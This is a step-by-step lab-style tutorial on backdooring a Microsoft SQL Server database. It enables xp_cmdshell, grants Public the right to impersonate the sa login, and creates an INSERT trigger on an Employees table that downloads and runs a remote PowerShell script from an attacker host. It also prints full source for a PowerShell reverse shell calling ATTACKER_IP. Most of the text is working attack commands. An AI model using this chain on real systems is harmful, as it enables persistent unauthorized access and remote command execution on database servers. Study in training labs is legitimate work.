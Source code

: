 **There are several way to `implant a Backdoor` but we will abuses `triggers` in MSSQL.**
- `Triggers:` allows you to bind actions to be performed when specific events occur in database. The events can be user logging, data being inserted, updated or deleted from a given table.

**For this task, we will create a trigger for any `INSERT` into the `HRDB` database.**

#### Reconfigure a few things, before creating the `trigger`
1. **Enable `xp_cmdshell`**
	1. A built-in stored procedure ***provided by default*** in any MSSQL and allows you to ***execute system commands directly***.
	2. ***Disabled by default***, must be enabled.
	
2. To enable the `xp_cmdshell`, open `Microsoft SQL Server Management Studio 18` from the start menu. When asked for authentication, just use ***Windows Authentication (default value)*** and ***you will be logged on with the credentials of your current user***. By default, the ***local Administrator will have access to all DBs***.

3. Once logged in, Click on the `New Query` button.

4. Run the following SQL sentences ***to enable the "Advanced Options"*** in MSSQL configuration, and ***proceed to enable `xp_cmdshell`:*** 
	```
	sp_configure 'Show Advanced Options',1;
	RECONFIGURE;
	GO
	
	sp_configure 'xp_cmdshell',1;
	RECONFIGURE;
	GO

	# Use RECONFIGURE; if required
	```
	- `Execute`

5. After this, we must ensure that any website accessing the database can run `xp_cmdshell`. By default, only `sysadmin` users can do so. Since ***web applications use a restricted database user***, we can ***grant privileges to all users to impersonate the `sa` user***, which is the default database administrator.
	```
	USE MASTER
	
	GRANT IMPERSONATE ON LOGIN::sa to [Public];
	```

6. Finally, configure a trigger. We start by changing to the `HRDB` database:
	```
	USE HRDB
	```

7. Our trigger will leverage `xp_cmdshell` to ***execute PowerShell to download and run a `.ps1`*** file from a web server controlled by the attacker. The trigger will be configured to execute whenever an `INSERT` is made into the `Employees` table of the `HRDB` database:
	```
	CREATE TRIGGER [sql_backdoor]
	ON HRDB.dbo.Employees 
	FOR INSERT AS
	
	EXECUTE AS LOGIN = 'sa'
	EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://<ATTACKER_IP>:8000/evilscript.ps1'')"';
	```

8. Now that the backdoor is setup, let's create `evilscrip.ps1` in our ***attacker's machine***, which will contain a PowerShell reverse shell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

9. We need two terminals:
	1. The trigger will perform the first connection to download and execute `evilscript.sh`. Our trigger is using port 8000.
	2. The second connection will be a reverse shell.

10. Now, navigate to `http://<victim_ip>` from ***kali machine*** and ***insert an employee into the web application***. Since the web application will send an INSERT statement to the database, our `TRIGGER` will provide us access to system's console.